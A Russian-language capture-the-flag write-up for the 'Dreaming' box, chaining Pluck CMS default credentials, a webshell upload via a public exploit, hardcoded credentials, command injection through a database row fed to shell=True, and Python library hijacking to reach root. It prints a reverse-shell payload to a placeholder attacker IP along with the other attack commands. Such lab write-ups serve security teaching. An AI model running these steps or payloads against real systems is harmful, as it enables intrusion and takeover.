# Write-up: Dreaming

## Recon

Запускаем полное сканирование:

```bash
nmap -A -v -p- --min-rate=1000 <TARGET-IP>
```

Ключевые открытые порты:

```text
22/tcp open  ssh   OpenSSH
80/tcp open  http  Apache
```



## Поиск скрытых директорий

Сайт по умолчанию отдаёт стандартную страницу Apache. Перебираем директории:

```bash
gobuster dir -u http://<TARGET-IP> \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Находим директорию `/app/pluck-4.7.13/` — CMS Pluck версии 4.7.13:



## Pluck CMS: вход в админку

У CMS стандартный пароль `password` — заходим в админ-панель:



## RCE через загрузку файла

Pluck CMS 4.7.13 уязвим к Arbitrary File Upload — можно загрузить `.phar` файл, который будет исполнен как PHP. Есть готовый эксплоит (Exploit-DB #49909). Скачиваем его:



Запускаем:

```bash
python3 49909.py 10.146.144.163 80 password /app/pluck-4.7.13
```

```text
Authentification was succesfull, uploading webshell
Uploaded Webshell to: http://10.146.144.163:80/app/pluck-4.7.13/files/shell.phar
```



Параллельно можно было загрузить и свой реверс-шелл через страницу загрузки файлов:







Получаем шелл `www-data`.

## Разведка внутри системы

Смотрим `/opt`:

```bash
cd /opt
ls -la
```

Находим:

```text
getDreams.py
test.py
```

### Insecure Credential Storage в test.py

```bash
cat test.py
```

```python
import requests

#Todo add myself as a user
url = "http://127.0.0.1/app/pluck-4.7.13/login.php"
password = "HeyLucien#@1999!"

data = {
    "cont1": password,
    "bogus": "",
    "submit": "Log+in"
}

req = requests.post(url, data=data)
```

Внутри жёстко зашит пароль Люсьена:



```text
HeyLucien#@1999!
```

### Анализ getDreams.py

```bash
cat /opt/getDreams.py
```

```python
import mysql.connector
import subprocess

DB_USER = "death"
DB_PASS = "#redacted"
DB_NAME = "library"

def getDreams():
    connection = mysql.connector.connect(
        host="localhost", user=DB_USER, password=DB_PASS, database=DB_NAME
    )
    cursor = connection.cursor()
    query = "SELECT dreamer, dream FROM dreams;"
    cursor.execute(query)
    dreams_info = cursor.fetchall()

    for dream_info in dreams_info:
        dreamer, dream = dream_info
        command = f"echo {dreamer} + {dream}"
        shell = subprocess.check_output(command, text=True, shell=True)
        print(shell)
```

`subprocess.check_output` вызывается с `shell=True`, а в команду попадает содержимое колонки `dream`. Значит, содержимое таблицы `dreams` — это команда, которую исполнит shell.

## Горизонтальное перемещение → lucien

Заходим по SSH с найденным паролем:

```bash
ssh lucien@<TARGET-IP>
# Пароль: HeyLucien#@1999!
```

Первый флаг:

```bash
cat lucien_flag.txt
```

В `.bash_history` находим строку с кредами MySQL:



```bash
mysql -u lucien -plucien42DBPASSWORD
```

## MySQL и подготовка инъекции

Заходим в MySQL:

```bash
mysql -u lucien -plucien42DBPASSWORD
```

Смотрим базы:

```sql
SHOW DATABASES;
```



Дальше таблицы и содержимое:

```sql
USE library;
SHOW TABLES;
SELECT * FROM dreams;
```





## Переход на death через SQL-инъекцию

Цель: внедрить команду, которая выполнится через `getDreams.py`. Проще всего положить reverse shell:

```sql
INSERT INTO dreams (dreamer, dream)
VALUES ('hacker', '$(bash -i >& /dev/tcp/<ATTACKER-IP>/4444 0>&1)');
```

Проверяем `sudo`:

```bash
sudo -l
```

```text
(death) NOPASSWD: /usr/bin/python3 /home/death/getDreams.py
```

Запускаем скрипт от `death` — инъекция триггерится:

```bash
sudo -u death /usr/bin/python3 /home/death/getDreams.py
```

На слушателе получаем шелл `death`.

Второй флаг:

```bash
cat /home/death/death_flag.txt
```

## PrivEsc → morpheus / root

Ищем SUID-файлы:

```bash
find / -perm -u=s -type f 2>/dev/null
```

Находим `/home/morpheus/restore.py`, который запускается с высокими правами.

Смотрим содержимое:

```python
from shutil import copy2 as backup
# ...
```

Уязвимость — Python Library Hijacking. Python при импорте ищет модули в текущей директории в первую очередь, поэтому мы можем подменить `shutil`.

Создаём поддельный `shutil.py` в директории `morpheus`:

```bash
cd /home/morpheus/
echo 'import os; os.system("/bin/bash -i")' > shutil.py
```

Ждём запуска `restore.py`  — Python подгрузит наш `shutil.py` и выполнит его с правами владельца скрипта.


## Итоговая схема (Kill Chain)

`Pluck CMS (default creds)` → `Arbitrary File Upload (.phar) → RCE as www-data` → `test.py (hardcoded creds) → SSH as lucien` → `MySQL INSERT INTO dreams (command injection)` → `getDreams.py via sudo -u death` → `restore.py + Python Library Hijacking → root`
